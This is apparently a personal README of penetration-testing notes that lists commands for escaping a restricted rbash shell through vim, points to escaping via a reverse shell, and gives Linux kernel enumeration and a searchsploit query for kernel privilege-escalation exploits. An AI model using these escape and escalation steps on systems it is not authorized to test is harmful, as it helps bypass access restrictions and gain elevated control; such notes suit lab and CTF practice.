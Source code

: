 # Description
This is just to track useful commands that I have used but haven't structured my folders yet in a way to sort them. So this will be random lol

### Escape rbash
```bash
# Escaping through editors vi or vim
vim

# In open vim editor
:set shell=/bin/bash
:shell

# You can also escape by using a reverse shell - More info at link below
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

```
### Linux Info
```bash
# Add all bin folders to path searchsploit 
export PATH="$HOME/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH"

# Get kernel information
uname -a

# Get Linux Verison
lsb_release -a

# Search for kernel exploit
searchsploit privilege | grep -i linux | grep -i kernel | grep X.X
```
